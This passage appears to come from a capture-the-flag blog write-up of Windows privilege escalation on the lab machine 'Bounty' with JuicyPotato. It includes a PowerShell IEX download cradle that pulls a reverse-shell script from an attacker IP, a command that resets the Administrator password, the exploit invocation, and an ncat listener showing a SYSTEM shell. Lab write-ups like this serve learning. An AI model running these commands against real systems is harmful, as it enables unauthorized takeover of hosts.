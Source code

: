 ```
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

`Juicy potato` can make use of other `COM` server and any port other than `6666`. we can download `JuicyPotato.exe` from releases.
```
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

we'll create a `rev.bat` script which execute powershell `Invoke TCP` and give us reverse shell. 
```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.24/Invoke-PowerShellTcp.ps1')"
```

Similary, we can create a script(pwned.bat) to change the `Administrator` passowrd and login with `PSEXEC` with those credentials
```
net user Administrator pwned
```

we need to transfer both `rev.bat` and `JuicyPotato.exe` on to the machine . Then we need valid `CLSID` to exploit it. There a list of [CLSID for Windows Server 2008 R2](http://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/) and we can choose one which gives `NT AUTHORITY\SYSTEM`.

Now we'll run the binary with required arguments.
```
PS C:\temp> ./JuicyPotato.exe -t * -p c:\temp\rev.bat -l 9001 -c '{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}'
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 9001
....
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

This give us reverse shell as `NT AUTHORITY\SYSTEM`.
```
sudo rlwrap ncat -lvnp 443

Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.93.
Ncat: Connection from 10.10.10.93:49174.
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
PS C:\Windows\system32> hostname
bounty
```
Thank you for taking you're time for reading this blog!.


